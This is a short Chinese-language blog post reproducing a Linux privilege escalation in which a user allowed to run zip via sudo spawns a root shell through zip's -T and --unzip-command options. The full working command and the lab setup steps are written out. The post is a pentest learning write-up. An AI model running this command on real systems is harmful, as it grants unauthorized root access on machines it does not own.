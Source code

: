 ```yaml
---
title: 使用ZIP进行提权
tags:
  - Linux
  - ZIP Privilege Escalation
categories:
  - 漏洞复现
copyright: true
abbrlink: c80808d5
date: 2019-06-08 16:51:57
---
```


![](https://ae01.alicdn.com/kf/HTB1F0_Ob8GE3KVjSZFh763kaFXaa.png)
<!--more-->
今天看到一则推文：在linux中使用zip可以低权限用户提升为高权限。

当使用高权限运行时，zip的执行会发生变化。假设系统管理员已向普通用户授予sudo权限以运行zip，可导致低权限用户提升为高权限。

### 利用前提 ###

- 安装有zip(一般情况都装有)
- 允许本地用户已sudo权限运行zip

### 复现 ###

创建一个普通用户 `test`，并设置允许以`sudo`权限运行zip。

```bash
useradd -m test
passwd test
vi /etc/sudoers
```

![](https://ae01.alicdn.com/kf/HTB14MPNb.GF3KVjSZFv762_nXXaV.png)

ssh登录`test`

![](https://ae01.alicdn.com/kf/HTB1Ct_Ob8GE3KVjSZFh763kaFXaw.png)

touch一个txt文件(任意)，然后使用`-T`选项并用`--unzip-command`（调用命令），进行文件压缩。

```bash
touch fu.txt
sudo zip r.zip fu.txt -T --unzip-command="bash -c /bin/bash"
```

![](https://ae01.alicdn.com/kf/HTB11s_VbW1s3KVjSZFA760_ZXXaw.png)

### END ###

复现完这个，觉得好鸡肋。。。

这其实还是"使用" `sudo` 方式进行提权的，现在基本没有管理员会把普通用户加入到`sudoers`文件中了吧。

**Reference**

https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/